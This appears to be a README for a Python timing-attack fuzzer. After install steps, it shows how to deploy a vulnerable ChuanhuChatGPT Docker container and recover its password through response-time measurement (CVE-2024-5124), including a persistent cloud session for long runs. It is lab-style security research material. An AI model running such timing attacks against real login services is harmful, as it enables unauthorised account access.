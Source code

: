 ## I Tutorials:

# I.1/ Install dependencies

```bash
virtualenv -p python3 venv3 ;
source venv3/bin/activate &&

pip install argparse requests matplotlib scipy pandas
```

# I.2/ Install modular-time-fuzzer

```
python3 -m pip install build && 
python3 -m build &&
python3 -m pip install -e . &&
python3 -m pip install dist/modular_time_fuzzer_GOGO-0.0.1-py3-none-any.whl --force-reinstall
```

# I.3/ Usage

```bash
measure -r 10 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
```

## II How-to:

# II.1/ developping timing attack against the password verification of Chuanchuangpt (CVE-2024-5124) using a cloud service in background

# II.1.1/ Deploy victim server:

# Install docker

```bash
# Install packages required for the installation

sudo apt-get update
sudo apt install --yes ca-certificates curl
sudo install -m 0755 -d /etc/apt/keyrings
sudo curl -fsSL https://download.docker.com/linux/debian/gpg -o /etc/apt/keyrings/docker.asc
sudo chmod a+r /etc/apt/keyrings/docker.asc

# Add the repository to Apt sources:

echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/debian \
  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt-get update
# Download GPG key and store repository in the system

curl -fsSL https://download.docker.com/linux/debian/gpg | gpg --dearmor -o /usr/share/keyrings/docker.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker.gpg] https://download.docker.com/linux/debian bookworm stable" |tee /etc/apt/sources.list.d/docker.list > /dev/null 
apt update 

# Install Docker packages

sudo apt install --yes docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin
```

# Run victim server

```bash
export JSON='{
    "users": [["openai", "isCloseAi"]]
}' ;

export DOCKER_CMD="apt update && apt install --yes git && pip install itsdangerous gradio && echo '${JSON}' > config.json && sed -i 's/share=share/share=True/g' ChuanhuChatbot.py && python3 -u ChuanhuChatbot.py 2>&1 | tee /var/log/application.log"

export DOCKER_RUN='sudo docker run -e language=en_US -it tuchuanhuhuhu/chuanhuchatgpt:20240310 /bin/bash -c "${DOCKER_CMD}"'

tmux new-session -d -s persistent_server "${DOCKER_RUN}"
tmux attach -t persistent_server
```

## II.1.2/ Attack the victim server

If you want to run these two scripts

```bash
measure -r 1000 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z "out.sqlite"
```

On a cloud backend to ensure it will never exit, install previously mentionned dependencies and run:

```bash
tmux new-session -d -s persistent_session "rm -Rf tmpdir/ && mkdir tmpdir/ ; pmeasure -r 1000 -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z 'out.sqlite' && analyze -c a -c b -c c -c d -c e -c f -c g -c h -c i -c j -c k -c l -c m -c n -c o -c p -c q -c r -c s -c t -c u -c v -c w -c x -c y -c z 'out.sqlite'"
tmux attach -t persistent_session
```


